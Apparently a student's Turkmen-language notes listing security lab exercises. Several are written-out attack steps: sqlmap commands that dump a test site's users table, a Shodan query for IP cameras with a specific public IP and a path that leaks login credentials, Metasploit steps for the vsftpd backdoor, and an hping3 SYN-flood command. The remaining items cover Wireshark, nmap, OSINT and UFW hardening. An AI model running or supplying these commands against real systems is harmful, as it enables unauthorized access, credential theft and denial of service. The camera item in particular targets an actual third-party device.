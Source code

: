  1
Test php.Vuln.com/artists.php?artist=1
Şu salga sql injection etmeli. (kali sql map)	
Brauzer şu salgyny giriz: http://testphp.vulnweb.com/artists.php?artist=1  	
sqlmap --url http://testphp.vulnweb.com/login.php
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threats 3
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 –dbs
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 -D acuart
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 -D acuart --tables
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 -D acuart -T users --dump
 2
 
Wireshark-da vpn tunel arkaly geçýän maglumatlaryň gowşaklyklaryny tapmaly
3 
Wireshark ulanyp DNS protokolyny seljermeli gowşaklyklary anyklamaly.
4
Shodan.io IoT gowşaklyklaryny tapyp peýdalanmak(kamera açmaly).
https://vk.com/@wiwosit-ekspluatiruem-uyazvimost-kamer

Shodan-a girmeli we aşakdaky buýrugy ýazmaly...
realm="GoAhead", domain=":81" port:"81"
http://202.215.62.86:81/ yzyna şuny goş: 
system.ini?loginuse&loginpas
http://202.215.62.86:81/system.ini?loginuse&loginpas
Faýl ýüklär, şol ýerden ulanyjy adyny we paroly almaly

5
RAR faýlyň parolyny döwmeli. (LostMyPass programma).
https://www.lostmypass.com/ onlaýn döwmek üçin şu web salgy...
6
NMAP arkaly belli bir IP-nyň açyk portlaryny we gowşaklyklaryny ýüze çykarmaly.
7
Burpsuite ulgamy bilen web sahypanyň gowşaklygyny bruteforce etmeli.
8
Gmail-e gelýän hatlary diňe şu kompýuterde ýatda saklar ýaly etmeli(setting-den düzetmeli).
9
Nmap arkaly port skannirlemek we hyzmat maglumatlary
(nmap -sV -p- 192.168.0.23)

					    10
Shodan.io-de vpn-yň gowşaklyklaryny ýüze çykarmak we seljermek.
http.title:"openvpn", port:"8443"

   11
Metasploit arkaly exploit ulanmak.

   12
OSINT gurallaryny ulanmak arkaly maglumatlary ýygnamak.
(google dorking, Tin Eye Reverse Image Search, FaceCheck Reverse Image search, RevEye reverse Image Search, Whois History)


					  13
SSH açar bilen serwere birikmek.
(paroly aýyryp açar bilen girmeli,  etc/ssh/sshdconfig/digital ocean ssh key)

					  14
Metasploit FTP protokol backdoor goýmaly.

Ädimler
nmap -sV <ip_salgy>
kali linux-da: msfconsole buýrugyny ýazyp metasploit-e giriň
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <ip_salgy>
exploit ýa-da run
  15
Wireshark-da pakedi seljerip gowşaklyklary ýüze çykarmak.

 16
SSH port forwarding (Bir kompýuterden 80-nji portdan çykmaly, beýleki kompýuteriň 80-nji portyndan girmeli).
sudo ssh -L 80:localhost:80 <username>@<remote_host>

17
OSINT. Plany Planyýew kripto kaşilýogyny tapmaly. Tranzaksiýalary görmeli.
Google-da şahsyň adyny ýazsaň çykarýar ýa-da osint framework-dan peýdalanyň.
Blockchain.com Explorer.
Etherscan
1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa  kripto salgy.

18
Syn Flooding paketlerini Wireshark-yň üsti bilen seljermek.
tcp.flags.syn==1 && tcp.flags.ack==0
hping3 -S -p 80 --flood --rand-source <target IP>  cmd kali yaz.

19
Linux servere ssh arkaly diňe bir IP bilen biriger ýaly etmeli, ssh arkaly başga IP-ler bilen birikmez ýaly etmeli. (UFW firewall)
Sudo su
Ufw default deny incoming
Ufw default allow outgoing
sudo ufw allow from <YOUR_IP> to any port 22
“sudo ufw deny 22” (nabelli bolmasa yazmalydyr)
sudo ufw status
sudo ufw enable
